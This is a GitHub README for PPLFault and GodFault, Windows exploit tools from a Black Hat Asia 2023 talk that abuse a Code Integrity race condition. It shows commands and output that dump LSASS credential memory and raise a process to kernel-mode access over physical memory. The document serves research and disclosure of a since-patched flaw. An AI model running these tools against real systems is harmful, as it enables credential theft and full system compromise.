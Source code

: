 # PPLFault

By [Gabriel Landau](https://twitter.com/GabrielLandau) at [Elastic Security](https://www.elastic.co/security-labs/).

From [PPLdump Is Dead. Long Live PPLdump!](https://www.blackhat.com/asia-23/briefings/schedule/#ppldump-is-dead-long-live-ppldump-31052) presented at [Black Hat Asia 2023](https://www.blackhat.com/asia-23).

[![PPLdump Is Dead. Long Live PPLdump!](http://img.youtube.com/vi/5xteW8Tm410/0.jpg)](http://www.youtube.com/watch?v=5xteW8Tm410 "PPLdump Is Dead. Long Live PPLdump!")

## PPLFault

**2024-02 UPDATE: Microsoft patched PPLFault on 2024-02-13.  See [this thread](https://x.com/GabrielLandau/status/1757818200127946922?s=20) for related discussion.**

Exploits a TOCTOU in Windows Code Integrity to achieve arbitrary code execution as WinTcb-Light then dump a specified process.  For more details on the exploit, see my [slides](http://i.blackhat.com/Asia-23/AS-23-Landau-PPLdump-Is-Dead-Long-Live-PPLdump.pdf) and/or [talk](https://x.com/GabrielLandau/status/1707773387731272085).

### Example Output

```
PS C:\Users\user\Desktop> cmd /c ver

Microsoft Windows [Version 10.0.25346.1001]
PS C:\Users\user\Desktop> tasklist | findstr lsass
lsass.exe                      992 Services                   0     76,620 K
PS C:\Users\user\Desktop> (Get-NtProcess -Access QueryLimitedInformation -Pid 992).Protection

Type           Signer
----           ------
ProtectedLight Lsa


PS C:\Users\user\Desktop> dir *.dmp
PS C:\Users\user\Desktop> .\PPLFault.exe -v 992 lsass.dmp
 [+] No cleanup necessary.  Backup does not exist.
 [+] GetShellcode: 528 bytes of shellcode written over DLL entrypoint
 [+] Benign: C:\Windows\System32\EventAggregation.dll.bak
 [+] Payload: C:\PPLFaultTemp\PPLFaultPayload.dll
 [+] Placeholder: C:\PPLFaultTemp\EventAggregationPH.dll
 [+] Acquired exclusive oplock to file: C:\Windows\System32\devobj.dll
 [+] Ready.  Spawning WinTcb.
 [+] SpawnPPL: Waiting for child process to finish.
 [+] FetchDataCallback called.
 [+] Hydrating 90112 bytes at offset 0
 [+] Switching to payload
 [+] Emptying system working set
 [+] Working set purged
 [+] Give the memory manager a moment to think
 [+] Hydrating 90112 PAYLOAD bytes at offset 0
 [+] Dump saved to: lsass.dmp
 [+] Dump is 74.9 MB
 [+] Operation took 937 ms
PS C:\Users\user\Desktop> dir *.dmp


    Directory: C:\Users\user\Desktop


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----          5/1/2023  11:18 AM       78581973 lsass.dmp
```

## GodFault

Exploits the same TOCTOU as PPLFault.  However instead of dumping a process, it migrates to CSRSS and exploits a vulnerability in `win32k!NtUserHardErrorControlCall` from [ANGRYORCHARD](https://github.com/gabriellandau/ANGRYORCHARD/blob/0a4720f7e07e86a9ac2783411b81efac14938e26/Exploit.c#L69-L81) to decrement `KTHREAD.PreviousMode` from `UserMode` (1) to `KernelMode` (0).  It proves "God Mode" access by opening `\Device\PhysicalMemory`, normally inaccessible from `UserMode`, as `SECTION_ALL_ACCESS`.

### Example Output

```
C:\Users\user\Desktop>GodFault.exe -v
 [?] Server does not appear to be running.  Attempting to install it...
 [+] No cleanup necessary.  Backup does not exist.
 [+] GetShellcode: 2304 bytes of shellcode written over DLL entrypoint
 [+] CSRSS PID is 772
 [+] Benign: C:\Windows\System32\EventAggregation.dll.bak
 [+] Payload: C:\GodFaultTemp\GodFaultPayload.dll
 [+] Placeholder: C:\GodFaultTemp\EventAggregationPH.dll
 [+] Acquired exclusive oplock to file: C:\Windows\System32\devobj.dll
 [+] Testing initial ability to acquire PROCESS_ALL_ACCESS to System: Failure
 [+] Ready.  Spawning WinTcb.
 [+] SpawnPPL: Waiting for child process to finish.
 [+] FetchDataCallback called.
 [+] Hydrating 90112 bytes at offset 0
 [+] Switching to payload
 [+] Emptying system working set
 [+] Working set purged
 [+] Give the memory manager a moment to think
 [+] Hydrating 90112 PAYLOAD bytes at offset 0
 [+] Thread 6248 (KTHREAD FFFFA283B0A62080) has been blessed
 [+] Testing post-exploit ability to acquire PROCESS_ALL_ACCESS to System: Success
 [+] Opened \Device\PhysicalMemory.  Handle is 0x1b4
 [+] Opened System process as PROCESS_ALL_ACCESS.  Handle is 0x1c0
 [+] Press any key to continue...
 [+] No cleanup necessary.  Backup does not exist.
```

## Python
PoC that achieves arbitrary code execution as WinTcb-Light without the CloudFilter API.  See [python/README.md](python/README.md).

## Tested Platforms

|  | Windows 11 22H2 22621.1702 (May 2023) | Windows 11 Insider Canary 25346.1001 (April 2023) |
| - | - | - |
| PPLFault | ✔️ | ✔️ |
| GodFault | ✔️ | ❌ Insider PreviousMode mitigation [bugchecks](https://twitter.com/GabrielLandau/status/1597001955909697536?s=20) |

# License

PPLFault is covered by the [ELv2 license](LICENSE.txt).  It uses [phnt](https://github.com/winsiderss/systeminformer/tree/25846070780183848dc8d8f335a54fa6e636e281/phnt) from SystemInformer under the [MIT license](phnt/LICENSE.txt).

# Credits
Inspired by [PPLdump](https://github.com/itm4n/PPLdump) by [Clément Labro](https://infosec.exchange/@itm4n), which Microsoft [patched](https://itm4n.github.io/the-end-of-ppldump/) in July 2022.

[ANGRYORCHARD](https://github.com/gabriellandau/ANGRYORCHARD) was created by [Austin Hudson](https://twitter.com/ilove2pwn_), who released it when Microsoft patched PPLdump.
